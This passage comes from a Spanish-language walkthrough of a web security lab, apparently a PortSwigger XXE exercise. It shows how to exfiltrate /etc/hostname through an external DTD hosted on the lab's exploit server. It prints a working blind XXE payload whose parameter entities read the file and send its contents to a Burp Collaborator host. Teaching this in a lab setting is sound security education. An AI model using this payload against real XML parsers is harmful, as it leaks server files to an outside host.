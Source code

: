 Hasta ahora esto ya lo habíamos hecho en el laboratorio anterior, pero ahora el nivel nos dice que debemos filtrar un archivo llamado /etc/hostname, por lo que ahora al ir al laboratorio veremos lo siguiente:

![botones](/assets/images/LabsXXE/lab5/botones.png)

Podemos apreciar que hay 2 opciones nuevas, una para cargar nuestro exploit, y otra para subir la flag, iremos a la primera y veremos lo siguiente:

![craft](/assets/images/LabsXXE/lab5/craft.png)

En este apartado es donde vamos a crear nuestro DTD externo, esta parte en la que estamos es una nueva URL, pero sigue siendo parte del nivel, solo que desde aquí es donde vamos a crear nuestro DTD externo, vemos que hay varias opciones.

En este caso solo modificaremos el contenido, y declararemos el DTD externo que hará instrucciones maliciosas:

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://xcdbuvruomslp2moktnz90fjeak28r.burpcollaborator.net/?content=%file;'>">
%eval;
%exfil;
```
Crear una entidad llamada **file** para tomar el archivo /etc/hostname, esta vez usamos el wrapper **file://** y no el de base64, ya que como este archivo solo tiene 1 línea no tendremos problema al recibir la respuesta.
